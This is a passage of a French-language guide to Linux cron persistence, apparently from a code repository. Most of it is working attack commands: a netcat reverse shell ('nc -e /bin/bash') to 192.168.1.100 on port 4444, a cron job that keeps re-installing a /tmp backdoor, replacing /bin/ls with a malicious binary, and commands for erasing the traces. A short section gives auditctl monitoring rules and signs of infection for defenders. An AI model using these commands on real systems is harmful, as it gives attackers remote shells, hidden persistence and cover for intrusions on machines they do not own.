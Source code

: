 ### Test de Connectivité
```bash
#!/bin/bash
# Vérifier la connectivité avant d'établir la connexion
if ping -c 1 192.168.1.100 > /dev/null 2>&1; then
    nc -e /bin/bash 192.168.1.100 4444
fi
```

## Persistence Avancée

### Cron Job qui Recrée d'Autres Backdoors
```bash
# Script qui maintient plusieurs méthodes de persistance
*/20 * * * * /bin/bash -c 'if ! crontab -l | grep -q "backdoor"; then echo "*/5 * * * * /tmp/backdoor.sh" | crontab -; fi'
```

### Modification de Binaires Système
```bash
# Remplacer un binaire système appelé par cron
cp /bin/ls /bin/ls.bak
cp malicious_ls /bin/ls
```

## Détection et Contre-mesures

### Surveillance pour Blue Team
```bash
# Monitorer les changements de crontab
auditctl -w /etc/crontab -p wa -k crontab_changes
auditctl -w /var/spool/cron/ -p wa -k user_crontab_changes

# Vérifier l'intégrité des fichiers cron
find /etc/cron* -type f -exec stat {} \; | grep Modify
```

### Signes d'Infection
- Nouvelles entrées dans `crontab -l`
- Fichiers récents dans `/etc/cron.*`
- Processus suspects s'exécutant périodiquement
- Connexions réseau récurrentes
- Fichiers cachés avec des permissions d'exécution

## Nettoyage des Traces

### Suppression des Cron Jobs
```bash
# Supprimer toutes les crontabs de l'utilisateur
crontab -r

# Supprimer une ligne spécifique
crontab -l | grep -v "backdoor" | crontab -

# Nettoyer les fichiers système (root requis)
rm /etc/cron.d/backdoor
sed -i '/malware/d' /etc/crontab
```
